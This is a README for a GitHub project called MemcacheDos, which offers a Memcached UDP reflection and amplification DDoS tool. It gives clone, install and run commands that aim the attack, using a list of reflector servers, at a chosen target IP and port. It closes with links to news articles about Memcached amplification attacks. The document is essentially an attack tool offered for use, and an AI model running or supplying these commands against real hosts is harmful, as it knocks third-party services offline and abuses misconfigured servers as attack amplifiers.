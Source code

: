 # MemcacheDos
Memcache 反射攻击.

# 如何使用
```
git clone https://github.com/Srar/MemcacheDos.git
cd MemcacheDos
npm install
./node_modules/.bin/ts-node main.ts --list result.txt --ip 1.1.1.1 --port 80
```

# 相关新闻
* [Memcrashed - Major amplification attacks from UDP port 11211](https://blog.cloudflare.com/memcrashed-major-amplification-attacks-from-port-11211/)
* [利用 Memcache 作为 DRDoS 反射放大器进行 DDoS 攻击](https://cert.360.cn/warning/detail?id=c63eb87058834e37c7c112c35ef5f9fd)